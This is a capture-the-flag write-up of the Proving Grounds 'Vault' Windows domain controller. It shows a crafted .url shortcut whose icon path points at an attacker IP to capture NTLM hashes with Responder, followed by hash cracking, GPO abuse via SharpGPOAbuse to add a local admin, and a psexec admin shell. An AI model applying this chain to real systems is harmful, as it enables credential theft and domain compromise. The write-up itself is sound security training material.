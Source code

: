 ```yaml
---
title: "Proving grounds Practice: Vault"
layout: post
date: 2023-08-12 12:00
categories: writeup
---
```


Proving grounds Practice - Vault CTF writeup.

## Walkthrough on Youtube
[![youtube](/assets/images/CTF/Proving_Grounds/Vault/youtube.png)](https://youtu.be/JocbrhLXuss)

## NMAP
```sh
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-13 04:53:47Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
```

Domain name: `vault.offsec`

## SMB share
```sh
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DocumentsShare  Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

## Writing files to DocumentsShare

![smb doc share](/assets/images/CTF/Proving_Grounds/Vault/smb-doc-share.png)

## Obtain NTLM Hash via uploading URL file

Run `responder` as root to listed for events to capture the NTLM Hash.

```text
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.45.170\%USERNAME%.icon
IconIndex=1
```

IP address should be `responder IP`.

![Obtain NTLM](/assets/images/CTF/Proving_Grounds/Vault/NTLM.png)

**Crack the hash using john**

![crack the hash](/assets/images/CTF/Proving_Grounds/Vault/john-pass-crack.png)

**Connect to attacking machine using extracted credentials**

![Machine connect](/assets/images/CTF/Proving_Grounds/Vault/evil-rm-connect.png)

## Enumerate system user privileges

![User Privilege](/assets/images/CTF/Proving_Grounds/Vault/windows_priv.png)

## Privilege Escalation

Create a tmp directory in root directory and move [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to the attacking machine.

## Enumerate Group Policies

**Default Domain Policy**

```powershell
PS C:\tmp> Get-GPO -Name "Default Domain Policy"

DisplayName      : Default Domain Policy
DomainName       : vault.offsec
Owner            : VAULT\Domain Admins
Id               : 31b2f340-016d-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 11/19/2021 12:50:33 AM
ModificationTime : 11/19/2021 2:00:32 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 4, SysVol Version: 4
WmiFilter        :
```

**Get GPPermission for anirudh**

```powershell
PS C:\tmp> Get-GPPermission -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 -TargetType User -TargetName anirudh

Trustee     : anirudh
TrusteeType : User
Permission  : GpoEditDeleteModifySecurity
Inherited   : False
```
`Permission  : GpoEditDeleteModifySecurity`

## Abuse Group Policy

[SharpGPOAbuse GitHub](https://github.com/FSecureLABS/SharpGPOAbuse)

Compile and download the binary to the attacking machine.

Download precompiled binary from [here](https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master).

**Abuse vulnerable GPO to create new local admin to the attacking machine**

```powershell
PS C:\tmp> ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
```

![GitHub](/assets/images/CTF/Proving_Grounds/Vault/gpo-abuse1.png)

Force update group policy `gpupdate /force`

**Check local group administrators list**

```powershell
PS C:\tmp> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
-------------------------------------------------------------------------------
Administrator
anirudh
The command completed successfully.
```

Use Psexec to get interactive administrator shell.

```sh
Usage:-
python3 psexec.py domain_name/username:password@IP
```

![GitHub](/assets/images/CTF/Proving_Grounds/Vault/psexec1.png)

`proof.txt` obtained.

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).